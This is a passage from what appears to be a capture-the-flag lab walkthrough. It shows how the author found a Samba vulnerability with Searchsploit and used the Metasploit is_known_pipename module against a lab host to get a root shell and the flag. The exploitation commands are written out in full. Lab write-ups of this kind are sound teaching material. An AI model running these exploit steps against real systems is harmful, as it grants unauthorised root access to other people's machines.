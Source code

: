 There's a lot of information here! But I want to solve this machine the easy way by now so let's start targeting **Samba** as it's pretty vulnerable most of the times. With a quick search using **Searchsploit** we can find a **Metasploit** module that will surely do the job:

![Searchsploit](/samba.png)

## Exploitation

### Gaining root access by method #1

Let's waste no more time and open **Metasploit**. Once inside the framework we can search for the *is_known_pipename* module:

```bash
search is_known_pipename
```

Now we should use that module:

```bash
use linux/samba/is_known_pipename
```

Setting up and using this module is quite simple and grants us with a **root** shell straight away:

```bash
set RHOSTS 192.168.1.43
set RPORT 139
exploit
/bin/bash -i
```

![Root!](/root.png)

Now it's just a matter of changing to the */root* directory to `cat` the flag:

![Wave that flag!](/flag.png)

Once I have a little bit of free time I will come back and try the other ways. **Hint:** I have already found some interesting files in the Samba server and some other stuff while enumerating the rest of the services.
